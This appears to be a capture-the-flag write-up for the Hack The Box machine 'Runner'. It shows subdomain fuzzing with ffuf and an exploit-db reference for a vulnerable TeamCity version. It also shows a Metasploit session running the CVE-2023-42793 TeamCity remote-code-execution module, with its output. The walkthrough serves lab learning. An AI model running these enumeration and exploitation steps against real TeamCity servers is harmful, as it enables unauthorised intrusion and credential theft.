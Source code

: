 subdomain enumeration

```bash
subfinder -d runner.htb
# nothing interesting
```

Turns out subfinder uses only online sources since it is a passive subdomain
enumeration tool. Since runner.htb is not a real domain, we need to use a
different tool. knockpy uses a wordlist to generate subdomains.

There are many tools for subdomain enumeration. Most of them are using online
sources. I didn't find a tool that finds subdomains by fuzzing the webserver
and finding out subdomains locally.

So, using ffuf to manually find subdomains. Was getting 302 for any subdomain so
filtered out 302 From the comments in the solution the wordlist that had to be
used was shubs-subdomains.txt Turns out only shubs-subdomains.txt had the
subdomain teamcity. 

!!! tip

    you can also use cewl to generate a custom wordlist using the website on
    runner.htb, this will add teamcity to the wordlist.

```bash
ffuf -u http://10.10.11.13/ -H "Host: FUZZ.runner.htb" -w /usr/share/seclists/Discovery/DNS/shubs-subdomains.txt -fc 302
#  :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
#  :: Filter           : Response status: 302
# ________________________________________________
#
# teamcity                [Status: 401, Size: 66, Words: 8, Lines: 2, Duration: 34ms]
```

Went to login page of teamcity and saw the version of teamcity. This version is
vulnerable and exploit is avaiable on
[exploit-db](https://www.exploit-db.com/exploits/51884).
Using this exploit got admin creds for teamcity.

Tried msf to get a shell but it didn't work.

```
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set RHOSTS teamcity.runner.htb
RHOSTS => teamcity.runner.htb
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > run

[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.elUwXzIxcUEyTl9DMXFiVVgtTnZmcEZ3VnVZ.NGRmN2VkN2EtYjkyNC00ODk2LWE5YTUtNjRjNTNiZGY5NTA0
[*] Modifying internal.properties to allow process creation...
[*] Waiting for configuration change to be applied...
[*] Executing payload...
[*] Resetting the internal.properties settings...
[*] Waiting for configuration change to be applied...
[*] Deleting the authentication token.
[*] Exploit completed, but no session was created.
```
